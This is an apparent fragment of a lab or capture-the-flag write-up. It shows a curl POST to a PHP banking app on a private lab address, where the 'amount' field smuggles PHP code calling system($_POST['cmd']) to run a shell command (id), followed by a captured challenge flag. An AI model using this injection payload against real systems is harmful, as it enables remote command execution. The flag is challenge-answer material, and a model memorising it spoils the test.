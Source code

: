 
curl 'http://172.16.4.120/client/transactions/addTransaction.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Cookie: lang=en-US; PHPSESSID=t6mdi2v4kcsg3lojihkl5lrhr4' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Origin: http://172.16.4.120' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw "from=test&fromaddr=&to=test&toaddr=&amount=x') === true || system($_POST['cmd']) || is_numeric('x&comments=test&cmd=id"


client_banking: OFFSHORE{h1dd3n_1n_pl@iN_$1ght}